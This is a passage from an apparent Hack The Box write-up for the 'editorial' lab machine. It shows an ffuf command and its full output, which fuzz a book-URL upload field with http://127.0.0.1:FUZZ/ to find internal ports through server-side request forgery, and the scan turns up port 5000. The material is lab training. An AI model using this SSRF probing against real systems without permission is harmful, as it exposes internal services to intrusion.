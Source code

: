 ```terminal

```

>You need to change the url to `http://127.0.0.1:FUZZ/`

Now we run the following command:

```bash
ffuf -c -u http://editorial.htb/upload-cover -X POST -request file.req -w list.txt -fs 61
```

```terminal
┌─[eu]─[10.10.16.8]─[sirius@parrot]─[~/CTF/HTB/editorial]
└──╼ [★]$ ffuf -c -u http://editorial.htb/upload-cover -X POST -request ssrf.req -w list.txt -fs 61

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://editorial.htb/upload-cover
 :: Wordlist         : FUZZ: /home/sirius/CTF/HTB/editorial/list.txt
 :: Header           : Host: editorial.htb
 :: Header           : Content-Type: multipart/form-data; boundary=---------------------------11871288052085292363748330851
 :: Header           : Priority: u=0
 :: Data             : -----------------------------11871288052085292363748330851
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ/
-----------------------------11871288052085292363748330851
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------11871288052085292363748330851--
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 61
________________________________________________

5000                    [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 1608ms]
```
